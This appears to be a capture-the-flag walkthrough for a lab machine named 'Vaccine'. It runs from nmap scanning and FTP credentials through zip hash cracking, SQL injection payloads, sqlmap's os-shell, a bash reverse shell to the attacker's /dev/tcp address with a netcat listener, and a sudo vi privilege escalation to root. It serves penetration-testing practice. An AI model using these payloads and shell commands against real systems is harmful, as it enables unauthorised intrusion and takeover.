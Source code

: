 # Vaccine

## Ifconfig

<pre>
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
</pre>

## Nmap

> sudo nmap -sC -sV -A 10.10.10.46

<pre>
Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Nikto

> nikto -h 10.10.10.46 | tee [nikto.log](./nikto.log)

## Install ftp

> sudo apt install ftp

> ftp 10.10.10.46

<pre>
username: ftpuser
password: mc@F1l3ZilL4
</pre>

and then get the [backup.zip](./ftp/backup.zip)

## Use zip hash to crack

> zip2john [backup.zip](./ftp/backup.zip) > [backup.hash](./ftp/backup.hash)

> john [backup.hash](./ftp/backup.hash) --show 

<pre>
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
1 password hash cracked, 0 left
</pre>

- unzip with password 741852963

> unzip [backup.zip](./ftp/backup.zip) 


## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Test sql injection

- At [dashboard.php](./dashboard.php)

> http://10.10.10.46/dashboard.php?search='UNION SELECT NULL, NULL, NULL, NULL, VERSION() --

VERSION() can replace from second to fourth parameters

*first only accept integer (index) cannot be replaced*

```
PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
```

## Sqlmap hack the os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=**"what you get on session"**" --os-shell

- Check self name

> whoami

<pre>
postgres
</pre>

- Check current path

> pwd

<pre>
/var/lib/postgresql/11/main
</pre>

- Remote command to local

*Source*

> bash -c 'bash -i >& /dev/tcp/10.10.14.69/*port* 0>&1'

*Destination*

> nc -lvnp *port*

- Get ID

> id

<pre>
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
</pre>

- Find postgresql account in [/var/www/html/dashboard.php](./dashboard.php)

<pre>
username: postgres
password: P@s5w0rd!
</pre>

## Sudo lists all privilege current user can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- Postgres can use *vi* of */bin/vi* (need sudo)

> which vi

<pre>
/usr/bin/vi
</pre>

- Use *sudo vi* to get root

> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

- Input commend in *sudo vi* to generate a root shell

> :!/bin/bash

or

> :!/bin/sh

or

> shell

## Finally

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>